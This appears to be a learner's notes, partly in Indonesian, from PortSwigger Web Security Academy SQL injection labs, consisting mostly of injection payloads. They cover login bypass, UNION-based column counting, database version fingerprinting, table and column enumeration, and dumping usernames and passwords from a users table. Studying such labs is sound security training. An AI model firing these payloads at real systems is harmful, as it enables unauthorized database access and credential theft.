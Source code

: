 ![[Pasted image 20250314145642.png]]
' OR '1'='1' AND released=0 --

![[Pasted image 20250314145521.png]]
```
administrator'--
```

##### Practicioner
![[Pasted image 20250314145702.png]]


![[Pasted image 20250319190119.png]]
' UNION SELECT @@version, NULL# -> NEMU HASIL




```
' UNION SELECT 'abc' FROM dual-- -> MASI ERROR
' UNION SELECT 'abc','def' FROM dual-- -> NEMU DATA

' UNION SELECT BANNER, NULL FROM v$version-- -> NEMU HASIL 

' UNION SELECT @@version, NULL# -> NEMU HASIL



' UNION SELECT 'abc','def' FROM dual--
' UNION SELECT table_name, NULL FROM all_tables--

' UNION SELECT column_name,NULL FROM all_tab_columns WHERE table_name = 'USERS_TRUTUY'--

' UNION SELECT USERNAME_SZAZZF, PASSWORD_OFHSQU FROM USERS_TRUTUY--



UNSOLVED : ==> ' UNION SELECT * FROM information_schema.tables --


https://0a250009048f549984b10fe700550066.web-security-academy.net/filter?category=' UNION SELECT BANNER, NULL FROM v$version--
```

```sql
`--

`OR 1=1--

' UNION SELECT my_col, my_col2 FROM table--


' UNION SELECT NULL; --
-> get UNION SELECT NULL, NULL, NULL until wrong -> maksimal number of column reached


-> Fuzz Data Type
' UNION SELECT 'abc',123; --

' UNION SELECT my_col, my_col2 FROM table--


```

